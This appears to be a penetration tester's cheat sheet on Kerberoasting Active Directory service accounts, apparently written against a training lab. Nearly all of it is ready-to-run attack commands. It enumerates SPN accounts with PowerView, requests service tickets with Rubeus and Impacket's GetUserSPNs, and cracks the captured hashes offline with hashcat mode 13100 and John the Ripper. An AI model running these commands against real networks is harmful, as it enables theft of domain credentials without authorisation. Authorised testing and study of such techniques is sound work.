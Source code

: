 #kerberoasting #active-directory 

Tools: `Rubeus`, `Impacket`, `PowerView`, `GetUserSPNs.py`
## Rubeus
Kerberoast from local machine `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
Check what mode Hashcat needs to be in `hashcat --help | grep -i "Kerberos"`
Crack the retrieved hash `sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
## Impacket GetUsersSPNs (Kerberoasting)
Retrieve Kerberoastable accounts `sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete` -> `sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
### 🔎 Step-by-Step Guide

#### 1. 🖥️ Enumerate SPNs (Windows - PowerView)
```
# Load PowerView
Import-Module .\PowerView.ps1

# Find accounts with SPNs
Get-DomainUser -SPN
```
#### 🎟️ 2. Request TGS for SPNs
```
# Using Rubeus
Rubeus.exe kerberoast

# Or manually with Impacket
python3 GetUserSPNs.py domain/user:password -dc-ip x.x.x.x
```
#### 4. 🔓 Crack the Hashes (Offline)
```
# Using Hashcat
hashcat -m 13100 kerberoast_hashes.txt wordlist.txt

# Using John the Ripper
john --wordlist=wordlist.txt kerberoast_hashes.txt
```


